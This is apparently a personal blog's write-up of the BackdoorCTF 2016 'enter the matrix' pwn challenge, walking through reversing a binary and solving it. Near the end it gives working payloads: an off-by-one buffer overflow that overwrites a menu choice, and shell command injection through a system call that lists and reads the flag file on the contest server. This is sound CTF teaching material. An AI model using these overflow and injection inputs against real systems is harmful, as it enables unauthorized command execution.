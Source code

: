 ```yaml
---
title: "BackdoorCTF 2016 - enter the matrix"
layout: post
date: 2016-06-07 14:21
tag:
- BackdoorCTF2016
- Pwning
- Backdoor
writeup: true
star: false
points: 350
category: Pwn
---
```


![Backdoor Logo](/assets/images/backdoorctf16/logo.png)

**BackdoorCTF is the annual flagship CTF competition conducted by SDSLabs and InfoSecIITR.**

#### Points: 350

#### Description:

>Can you reach Zion and find the flag? You can download a copy of the Matrix to play with [here](http://hack.bckdr.in/ENTER-THE-MATRIX/matrix), but the flag can only be found on Zion, through the real Matrix at
nc hack.bckdr.in 9004

## Write-up

**For this one I went a long way around to finally get the solution. Since this is my first writeup with pwning, I'll be writing about the whole journey around the binary so if you want to just quickly see the solution, [jump here](#the-actual-solution)**

So they gave a 32-bit ELF non-stripped executable. I opened it up in IDA and saw a function named `zion`. According to the description this is where we have to reach to get the flag. This function was making some `_system` call which is what I had to finally exploit. I decided to go into its details later and rather focus on reaching there first.

I run the binary normally `./matrix`. It gave me three options.

~~~
Welcome to the Matrix
---------------------

Please choose a pill:
1) Red pill
2) Blue pill
3) Exit

Choice:
~~~

Since there were just three options I decided to try them all.

`1. Red Pill` - It asked for a name. I filled some random string. The binary said it was expecting "Neo" and exited. Then I tried with the name "Neo". It said "See you on the other side, Neo... Knock knock." and exited. I wonder what other side it's talking about :P

`2. Blue Pill` - Learning from before I tried with the name "Neo". Ah so we got something here. Something related to Matrices as I wanted. I tried random matrix sizes and inputs and landed no-where. It just gave back `AxB` for the two matrices. Ofcourse that meant I need to look at the disassembly.

But first I decided to try the `Exit` option as well just to be sure. It had nothing worthwhile.

So now I looked at the disassembly.

![Function call](/assets/images/backdoorctf16/choice_call.png)

Here `ds:choice` is where our inital choice is stored which was `2`(Blue pill) in this case. So we see that it calls the function with function name at certain offsets to `ds:dispatcher`. I saw the data section to see what was being called for which choice.

![Dispatcher](/assets/images/backdoorctf16/dispatcher.png)

So following is the relation between choice and function call.

~~~
0 - zion()
1 - red_pill()
2 - blue_pill()
3 - exit_out()
~~~

On seeing this I though what if I just call zion by entering `choice` as `0`. But they had checks on the value of the choice(1-3).

So I proceeded to the disassembly of `blue_pill()`. It had lots and lots of assembly. But I decided to go through it to reach `zion`. I saw this line "So, you found the hidden multiplier. Good for you." and decided thats where I must reach. I went through a lot of assembly trying to understand the control flow. Finally I deciphered that a lot of assembly corresponded to loops for taking all the inputs terms for each Matrix and then multiplying them together.

![Check 7](/assets/images/backdoorctf16/check7.png)

The above shows the code where the matrix size is being compared to the number `7` and I also saw that this size was necessary to reach `zion`. I tried running the binary with size = 7 but nothing. I expected there to be some check on values entered in the two matrix or the terms of `AxB`. So what I was that they had a variable set to the value `49`. This value was decremented once in for each term of `AxB` if it matched a certain value stored in the data section. In the end if the value of this variable was `0`, it went into `zion`.

![Variable Set](/assets/images/backdoorctf16/var_set.png)
<figcaption class="caption">Variable set to 0x31 = 49</figcaption>
<br>

~~~python
mov     eax, expected_mult[eax*4] # Moved the value at a certian position in the array `expected_mult` to `eax`

cmp     ecx, eax # Compare it to `ecx` which was actually storing the multiplied value after all calculations

setz    al # Sets the `al` register to 1 if the zero register is set to zero i.e. if eax == ecx in prev. step

movzx   eax, al # Copy that to eax

sub     [ebp+var_12D8], eax # This is where 1 is being subtracted.

add     [ebp+var_12D0], 1 # This is just loop variable updation.
~~~

![Variable check](/assets/images/backdoorctf16/var_check.png)

So I checked all the required values from the data section; converted them to decimal; made it into one of the Matrices and kept the other as an Identity matrix. So I finally had the input file ready:

~~~
2
Neo
7
1 0 0 0 0 0 0
0 1 0 0 0 0 0
0 0 1 0 0 0 0
0 0 0 1 0 0 0
0 0 0 0 1 0 0
0 0 0 0 0 1 0
0 0 0 0 0 0 1

10521 43403 21171 23103 54799 23988 10671
57977 61619 7400 34766 62088 64441  59137
30588 11031 36049 8340 43958 50999 12801
24559 57246 18798 49058 35052 27517 47281
57718 20889 42562 16616 50837 39276 14191
6891 21083 13814 51375 30500 20360 61632
60643 4598 56582 23548 45837 35370 23163
~~~

I tried `cat input | ./matrix` and got

~~~
So, you found the hidden multiplier. Good for you.
I shall now prepare a spaceship to Zion, Neo
~~~

Woot! I was so happy at having completed this challenge. Now all the was left was send the same thing to the binary running on the server.

~~~bash
cat input | nc hack.bckdr.in 9004
~~~

I got back the same resonse as above but no flag. This was bad. After all this work! I remembered that I hadn't actually looked at what `zion()` was actually doing.

## The actual Solution

![zion](/assets/images/backdoorctf16/zion.png)
<figcaption class="caption">From zion()</figcaption>
<br>
So all `zion` was doing was to execute the following command `printf '[name]'`. The name in our case was 'Neo'. There is no chance we can get a flag with that. I tried different combinations like `Neo\0;cat flag` etc. I was expecting the strins comparison to stop at `\0`. Nothing like that happened so I was unable to get into `zion` without keeping the name 'Neo'.

Probably this wasn't the right path afterall. I check at what all places `zion` function was being called. There was this other option which we had rejected earlier - setting the `choice` to `0`. There was a posibility that I maybe able to overwrite the `choice` while entering the `name`. I checked how they were being stored.

![name_choice](/assets/images/backdoorctf16/name_choice.png)

So the name could have 64 characters an just after that in the memory our choice was being stores.

So I tried to overwrite it:

~~~bash
python -c "print '2\n' + a'*64 + '\000'" | ./matrix
~~~

And voila! It did enter `zion`. So now I used the appropriate string so as to print the flag. This was a bit tricky. But this is what I finally used.

~~~bash
python -c "print '2\n'+'a'*9+'\';ls;cat \'flag_6fbb122c8e7f3408e4c783fbfe5052da\';'+'echo \''+'\000'" | nc hack.bckdr.in 9004
~~~

So the flag was in a file named `flag_6fbb122c8e7f3408e4c783fbfe5052da`. This I find out by sending an `ls` as you can see in the input; then modified the input to `cat` the correct file.

Finally got the flag!

![flag](/assets/images/backdoorctf16/matrix_flag.png)

The Vulnerability in this pwn challenge was `Off by One` error. This means that the program was reading 65 letters into the name rather than 64. We have all done this negligence:

Writing<br> `for(int i = 0; i <= 10; i++)`<br> rather than<br> `for(int i = 0; i < 10; i++)` ;) #nostalgia :P

Cheers who read through it all! I hope you learnt something from my mistakes. **Go through other [writeups](../../) for more such fun challenges.**
